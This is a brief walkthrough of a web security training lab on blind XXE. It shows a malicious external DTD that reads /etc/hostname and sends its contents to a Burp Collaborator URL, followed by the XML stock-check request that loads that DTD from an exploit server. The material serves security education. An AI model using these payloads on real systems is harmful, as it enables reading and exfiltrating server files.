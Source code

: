 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

---

### step 1

copy bupcollaborator
go to exploit url
eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://eo6keyrk85fg7tb4w3oh2v87fylp9oxd.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

![screenshot](./images/lab5_expolite.png)

### step2

in reapeater
add this url
https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a580090041db592c16b0723015f00a1.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>
1</productId><storeId>1</storeId></stockCheck>
```

send request

now goto burpcollaborator

![screenshot](./images/lab5_burpcollaborator.png)
